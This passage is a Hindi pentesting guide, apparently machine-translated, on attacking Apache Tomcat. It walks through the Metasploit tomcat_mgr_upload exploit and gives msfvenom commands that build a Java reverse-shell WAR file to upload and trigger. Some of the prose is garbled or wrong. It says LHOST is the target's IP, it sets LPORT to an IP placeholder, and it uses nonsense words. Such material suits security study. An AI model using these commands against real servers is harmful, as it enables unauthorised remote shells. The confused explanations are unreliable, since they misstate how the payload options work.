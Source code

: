 Metasploit एक शक्तिशाली और लोकप्रिय हैकिंग फ्रेमवर्क है जिसका उपयोग नेटवर्क सुरक्षा और पेंटेस्टिंग के लिए किया जाता है। यह एक ओपन सोर्स टूल है जिसे Rapid7 द्वारा विकसित किया गया है। Metasploit कई विभिन्न हैकिंग टेक्निक्स का समर्थन करता है जैसे कि रिमोट एक्सप्लोइटेशन, पोर्ट स्कैनिंग, पासवर्ड क्रैकिंग, और वेब एप्लिकेशन पेंटेस्टिंग। Metasploit का उपयोग करके हैकर्स नेटवर्क परिक्षण कर सकते हैं, सुरक्षा कमजोरियों को खोज सकते हैं और वेब एप्लिकेशनों को अद्यतित कर सकते हैं।

Metasploit के विभिन्न मॉड्यूल्स उपलब्ध होते हैं जो विभिन्न हैकिंग कार्यों को संभव बनाते हैं। इन मॉड्यूल्स का उपयोग करके हैकर्स एक निश्चित निर्देशिका में उपयुक्त एक्शन्स को चला सकते हैं, जैसे कि एक शैलीश एक्सप्लोइट को चलाना, एक शैलीश शेल तक पहुंच प्राप्त करना, या एक शैलीश शेल के माध्यम से रिमोट मशीन को नियंत्रित करना।

Metasploit का उपयोग करने के लिए, हैकर्स को एक मेटरप्रेटर कंट्रोल कंसोल में काम करना होता है जिसे वे एक निश्चित निर्देशिका के साथ शुरू कर सकते हैं। इसके बाद, हैकर्स विभिन्न मॉड्यूल्स का उपयोग करके निर्देशिका में उपयुक्त कार्रवाईयों को चला सकते हैं। Metasploit एक शक्तिशाली और व्यापक फ्रेमवर्क है जो हैकर्स को नेटवर्क पेंटेस्टिंग के लिए एक सरल और सुरक्षित तरीके से उपकरण प्रदान करता है।
```bash
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```
### MSFVenom रिवर्स शेल

एमएसएफवेनम रिवर्स शेल एक टूल है जिसका उपयोग एक विंडोज या लिनक्स मशीन पर रिवर्स शेल उत्पन्न करने के लिए किया जाता है। यह टूल एक विंडोज या लिनक्स मशीन पर एक रिवर्स शेल बनाने के लिए विभिन्न प्रकार के परिवर्तनों का उपयोग करता है, जैसे कि पोर्ट, एचटीटीपी और एन्कोडिंग आदि। इसका उपयोग एक विंडोज या लिनक्स मशीन पर रिमोट एक्सीक्यूशन को संभव बनाने के लिए किया जा सकता है।

इस टूल का उपयोग करने के लिए, आपको एक रिवर्स शेल पेयलोड बनाने के लिए विभिन्न पैरामीटर्स को सेट करने की आवश्यकता होती है। इन पैरामीटर्स में आपको अपने लक्ष्य मशीन के लिए एक उपयुक्त पोर्ट, एचटीटीपी, एन्कोडिंग और एक आवश्यक फ़ाइल नाम निर्दिष्ट करने की आवश्यकता होती है।

एमएसएफवेनम रिवर्स शेल टूल का उपयोग करने के लिए, आपको निम्नलिखित कमांड का उपयोग करना होगा:

```bash
msfvenom -p <payload> LHOST=<your IP> LPORT=<your port> -f <format> -e <encoder> -o <output file>
```

यहां, `<payload>` आपके उद्देश्य के अनुसार एक रिवर्स शेल पेयलोड का नाम होना चाहिए, `<your IP>` आपके लक्ष्य मशीन का आईपी पता होना चाहिए, `<your port>` आपके लक्ष्य मशीन के लिए एक उपयुक्त पोर्ट नंबर होना चाहिए, `<format>` आपके द्वारा चुने गए आउटपुट फ़ाइल का प्रारूप होना चाहिए, `<encoder>` आपके द्वारा चुने गए एन्कोडर का नाम होना चाहिए, और `<output file>` आपके द्वारा चुने गए आउटपुट फ़ाइल का नाम होना चाहिए।

इसके बाद, आपको अपने उत्पन्न रिवर्स शेल पेयलोड को लक्ष्य मशीन पर एक उचित तरीके से प्रस्तुत करने की आवश्यकता होती है, जैसे कि एक वेब पेज के माध्यम से या एक अन्य तकनीक का उपयोग करके। जब आपका लक्ष्य मशीन रिवर्स शेल पेयलोड को स्वीकार करता है, तो आप उस मशीन पर रिमोट एक्सीक्यूशन को संभव बना सकते हैं।
```bash
msfvenom -p java/shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LHOST_IP> -f war -o revshell.war
```
फिर, **`revshell.war` फ़ाइल अपलोड करें और इसे एक्सेस करें (**_**/revshell/**_**)**

### [tomcatWarDeployer.py](https://github.com/mgeeky/tomcatWarDeployer) के साथ बाइंड और रिवर्स शेल
